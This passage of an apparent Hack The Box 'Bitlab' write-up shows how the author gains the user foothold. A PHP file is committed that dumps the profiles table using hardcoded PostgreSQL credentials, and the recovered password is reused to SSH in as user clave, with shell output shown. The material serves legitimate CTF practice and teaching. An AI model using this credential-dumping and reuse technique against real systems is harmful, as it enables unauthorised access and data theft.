 ## User

In the home page of the Profile project, there is a hint, is mentioned a connection postgresql and snippets, we go to the snippets page, and we found we have one

{{< image src="/images/htb/bitlab/1-intended_user.png" position="center" style="border-radius: 8px;" >}}

We open it and se it's a script to connect to the database and get a dump of profiles:

```js
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
```

Then, inside the profile project we add a new file with that code, but also we create an array with ```pg_fetch_all($result)``` in order to save all the profiles dumped, so the result is this one:

```js
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
$arr = pg_fetch_all($result);
print_r($arr);
```

After save and merge of it, we go to ```http://10.10.10.114/profile/<name you give to the script>```, and we should get as a result printed an array with our previous user ```clave``` and a password:

```js
Array ( [0] => Array ( [id] => 1 [username] => clave [password] => c3NoLXN0cjBuZy1wQHNz== ) )
```

Before trying to crack the password, we try to use as it is, and indeed it was just that one it was not encrypted!

```console
root@kali:~/Documents/HTB/boxes/medium/linux/bitlab# ssh 10.10.10.114 -l clave
clave@10.10.10.114's password: 
Last login: Fri Jan 10 19:45:16 2020 from 10.10.14.7
clave@bitlab:~$ id
uid=1000(clave) gid=1000(clave) groups=1000(clave)
clave@bitlab:~$ ls -la
total 44
drwxr-xr-x 4 clave clave  4096 Aug  8 14:40 .
drwxr-xr-x 3 root  root   4096 Feb 28  2019 ..
lrwxrwxrwx 1 root  root      9 Feb 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 clave clave  3771 Feb 28  2019 .bashrc
drwx------ 2 clave clave  4096 Aug  8 14:40 .cache
drwx------ 3 clave clave  4096 Aug  8 14:40 .gnupg
-rw-r--r-- 1 clave clave   807 Feb 28  2019 .profile
-r-------- 1 clave clave 13824 Jul 30 19:58 RemoteConnection.exe
-r-------- 1 clave clave    33 Feb 28  2019 user.txt
clave@bitlab:~$ wc -c user.txt 
33 user.txt
```
